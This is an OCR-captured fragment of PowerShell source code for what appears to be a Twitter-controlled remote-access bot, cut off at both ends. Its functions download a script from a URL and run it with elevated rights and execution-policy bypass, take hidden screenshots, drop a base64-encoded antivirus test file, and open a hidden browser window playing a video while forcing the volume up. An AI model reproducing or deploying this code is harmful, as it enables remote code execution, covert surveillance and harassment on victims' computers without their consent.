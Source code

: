                 Write-Verbose "I am downloading from $ActualdownloadURL"
                $downloadedScript = $WebClientObject.downloadString($ActualdownloadURL)
            
                $CmdArgs = '-Exe Bypass -NoL -Com $downloadedScript'
                $CmdString = 'Start-Process PowerShell.exe -Verb RunAs -ArgumentList ' + '$CmdArgs'
                
                Write-Verbose "I am executing $CmdString"
                Invoke-Expression $CmdString    
            }
        }

        #This implements the !screenshot command which takes a screenshot and saves as a png where specified 
        #Ex: !screenshot|c:\temp\screen.png 
        Function ScreenshotCommand {
            [string] $FilePath = $LatestTweet.split('|')[1]
            Add-Type -Assembly System.Windows.Forms
            $ScreenBounds = [Windows.Forms.SystemInformation]::VirtualScreen
            $ScreenshotObject = New-Object Drawing.Bitmap $ScreenBounds.Width, $ScreenBounds.Height
            $DrawingGraphics = [Drawing.Graphics]::FromImage($ScreenshotObject)
            $DrawingGraphics.CopyFromScreen( $ScreenBounds.Location, [Drawing.Point]::Empty, $ScreenBounds.Size)
            $DrawingGraphics.Dispose()
            $ScreenshotObject.Save($FilePath)
            $ScreenshotObject.Dispose() 
        }
    
        #This implements the !eicar command which flags antivirus and will stall the script for a few minutes
        #Ex: !eicar
        Function EicarCommand {
            [string] $FilePath = "$env:temp\eicar.com"
            [string] $EncodedEicar = 'WDVPIVAlQEFQWzRcUFpYNTQoUF4pN0NDKTd9JEVJQ0FSLVNUQU5EQVJELUFOVElWSVJVUy1URVNULUZJTEUhJEgrSCo='
            
            if (!(Test-Path -Path $FilePath)) {
                $EicarBytes = [System.Convert]::FromBase64String($EncodedEicar)
                [string] $Eicar = [System.Text.Encoding]::UTF8.GetString($EicarBytes)
                Set-Content -Value $Eicar -Encoding ascii -Path $FilePath -Force
            }   
        }

        #This implements the !thunderstruck command which blasts AC/DC while forcing the volume max
        #Ex: !thunderstruck|http://www.youtube.com/watch?v=v2AC41dglnM
        Function ThunderstruckCommand {
            [string] $VideoURL = $LatestTweet.split('|')[1]
            #Set the URL to youtube thunderstruck if URL wasn't supplied
            if ($VideoURL -eq $null) {
                [string] $VideoURL = "http://www.youtube.com/watch?v=v2AC41dglnM"
            }
            
            #Create hidden IE Com Object
            $IEComObject = New-Object -com "InternetExplorer.Application"
            $IEComObject.visible = $False
            $IEComObject.navigate($VideoURL)
            $EndTime = (Get-Date).addminutes(3)
            Write-Verbose "Loop will end at $EndTime"
                #ghetto way to do this but it basically presses volume up to raise volume in a loop for 3 minutes
                do {
                    $WscriptObject = New-Object -com wscript.shell
                    $WscriptObject.SendKeys([char]175)
                }
                